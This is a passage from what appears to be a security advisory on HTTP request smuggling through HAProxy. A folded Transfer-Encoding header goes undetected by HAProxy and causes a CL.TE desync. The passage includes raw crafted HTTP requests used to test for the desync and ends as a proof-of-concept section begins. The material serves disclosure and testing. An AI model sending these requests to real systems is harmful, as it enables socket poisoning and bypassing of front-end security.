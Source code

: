**Request forwarded to backend:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
```

In this case, the Transfer-Encoding is not detected by HAProxy, and so the Content-Length is used (and as such, the `X` is forwarded because it falls within the 6 bytes of body size specified). However, because the Transfer-Encoding remains in the request sent to the backend, it means that if a backend server manages to parse the Transfer-Encoding header and proceeds to treat the request as a TE encoded request, a desync could occur and the backend TCP socket could be poisoned (in this case, with an "X"). This could then lead to HTTP request smuggling. A way to test whether this might be the case on an app behind HAProxy would be to issue a request like as outlined in the [HTTP Request Smuggling Reborn](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn) research:

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 4
Transfer-Encoding:chunked

1
Z
Q
```

Because it uses the Content-Length, HAProxy will forward the following to the backend:

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 4
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

1
Z
```

If the backend parses this request using Transfer-Encoding, then it will timeout waiting for the terminating '0\r\n\r\n'. The aforementioned research classifies it as "CL.TE" desync.

## Request smuggling proof of concept

Now we have HAProxy sending through both Content-Length and Transfer-Encoding with potentially conflicting information, we can try to achieve request smuggling. This can be demonstrated using the following setup.
